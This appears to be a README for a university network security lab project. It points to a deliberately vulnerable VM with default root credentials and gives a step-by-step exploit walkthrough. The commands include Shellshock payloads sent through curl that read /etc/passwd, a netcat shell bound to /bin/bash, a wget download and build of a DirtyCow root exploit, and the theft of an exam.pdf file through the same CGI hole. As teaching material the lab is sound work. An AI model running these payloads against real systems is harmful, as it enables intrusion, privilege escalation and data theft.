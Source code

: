 # Network Security 2016 Project


### VM

Can be downloaded here: https://drive.google.com/open?id=0B5aLHLFCodGDTFBLRkQyWlJMNDg

**Important:** Check that bridged networking is enabled (Settings > Network > Adapter 1 > Attached to: Bridged Adapter)

Then you can access the webserver running on the VM from your host system.

**Users:** 

* root:root
* netsec:netsec


### How to Exploit

Shellshock:
```
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo \"\"; echo \"\"; /bin/cat /etc/passwd" 192.168.1.110/cgi-bin/index.cgi
```

Reverse Shell:
```
curl -H "User-Agent: () { :; }; /bin/netcat -e /bin/bash -l -p 12345" 192.168.1.110/cgi-bin/index.cgi
```

Connect to Reverse Shell:
```
netcat 192.168.1.110 12345
```

Information Gathering:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

DirtyCow root privilege escalation:
```
cd /tmp
wget <url>/c0w.c --no-check-certificate
gcc -pthread c0w.c -o c0w
./c0w

(Wait...)

/usr/bin/passwd
id
uid=0(root) gid=0(root) groups=0(root)
```

Get Network Security exam:
```
find / -name "exam.pdf"

cp /home/netsec/exam.pdf /tmp/exam.pdf

exit

curl -H "User-Agent: () { :; }; echo \"Content-Type: application/pdf\"; echo \"\"; echo \"\"; /bin/cat /tmp/exam.pdf" 192.168.1.110/cgi-bin/index.cgi > exam.pdf
```
